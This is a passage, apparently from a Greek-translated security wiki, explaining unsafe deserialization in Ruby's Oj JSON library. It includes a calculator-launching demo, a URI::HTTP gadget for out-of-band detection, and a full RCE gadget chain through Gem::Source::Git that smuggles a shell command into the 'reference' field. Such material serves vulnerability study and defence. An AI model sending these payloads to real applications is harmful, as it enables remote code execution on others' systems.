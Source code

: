 Βασικό παράδειγμα:
```ruby
# Existing Ruby class inside the code of the app
class SimpleClass
def initialize(cmd)
@cmd = cmd
end

def hash
system(@cmd)
end
end

# Exploit
require 'oj'
simple = SimpleClass.new("open -a calculator") # command for macOS
json_payload = Oj.dump(simple)
puts json_payload

# Sink vulnerable inside the code accepting user input as json_payload
Oj.load(json_payload)
```
Στην περίπτωση που προσπαθήσαμε να εκμεταλλευτούμε το Oj, ήταν δυνατό να βρούμε μια κλάση gadget που μέσα στη συνάρτηση `hash` της θα καλούσε το `to_s`, το οποίο θα καλούσε το spec, το οποίο θα καλούσε το fetch\_path, το οποίο ήταν δυνατό να το κάνουμε να ανακτήσει μια τυχαία διεύθυνση URL, παρέχοντας έναν εξαιρετικό ανιχνευτή αυτού του είδους των μη καθαρισμένων ευπαθειών αποσυμπίεσης.
```json
{
"^o": "URI::HTTP",
"scheme": "s3",
"host": "example.org/anyurl?",
"port": "anyport","path": "/", "user": "anyuser", "password": "anypw"
}
```
Επιπλέον, διαπιστώθηκε ότι με την προηγούμενη τεχνική δημιουργείται επίσης ένας φάκελος στο σύστημα, ο οποίος είναι απαραίτητος για την κατάχρηση μιας άλλης συσκευής προκειμένου να μετατραπεί αυτό σε μια πλήρη RCE με κάτι σαν:
```json
{
"^o": "Gem::Resolver::SpecSpecification",
"spec": {
"^o": "Gem::Resolver::GitSpecification",
"source": {
"^o": "Gem::Source::Git",
"git": "zip",
"reference": "-TmTT=\"$(id>/tmp/anyexec)\"",
"root_dir": "/tmp",
"repository": "anyrepo",
"name": "anyname"
},
"spec": {
"^o": "Gem::Resolver::Specification",
"name": "name",
"dependencies": []
}
}
}
```
Ελέγξτε για περισσότερες λεπτομέρειες στην [**πρωτότυπη ανάρτηση**](https://github.blog/security/vulnerability-research/execute-commands-by-sending-json-learn-how-unsafe-deserialization-vulnerabilities-work-in-ruby-projects/?utm\_source=pocket\_shared).
